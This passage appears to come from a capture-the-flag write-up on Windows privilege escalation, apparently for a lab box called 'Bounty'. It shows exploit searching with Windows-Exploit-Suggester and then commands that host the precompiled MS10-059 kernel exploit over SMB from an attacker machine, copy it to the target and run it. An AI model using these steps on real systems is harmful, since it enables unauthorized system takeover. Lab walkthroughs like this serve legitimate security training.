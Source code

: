 Of the list, only the following URL look promising:

- http://www.exploit-db.com/exploits/15609/

But the list of supported kernels does not list the target's:

```bash
Windows Vista/2008 6.1.6000 x32,
Windows Vista/2008 6.1.6001 x32,
Windows 7 6.2.7600 x32,
Windows 7/2008 R2 6.2.7600 x64. # not 6.1.7600 N/A Build 7600
```

Next use the older tool `Windows-Exploit-Suggester` (https://github.com/AonCyberLabs/Windows-Exploit-Suggester) to look for older exploits:

```bash
# download and install
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester
curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py
python2.7 get-pip.py
python2.7 -m pip install xlrd
# run
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --update
python2.7 Windows-Exploit-Suggester/windows-exploit-suggester.py --database 2020-09-29-mssb.xls --systeminfo ./systeminfo.txt
```

From that tool, there is more output:

![wesng2](./bounty/wesng2.png)

MS10-059 is a solid choice since it is already found pre-compiled at https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS10-059. Just download, upload and execute:

```bash
# on kali, download exploit:
wget https://github.com/SecWiki/windows-kernel-exploits/raw/master/MS10-059/MS10-059.exe
# on kali, host exploit:
sudo impacket-smbserver BUBBA .
# on target, download exploit:
robocopy \\10.10.14.17\BUBBA\ %TEMP% MS10-059.exe /copy:DT /w:1 /r:1 /v
# on target, run exploit:
%TEMP%\MS10-059.exe
```
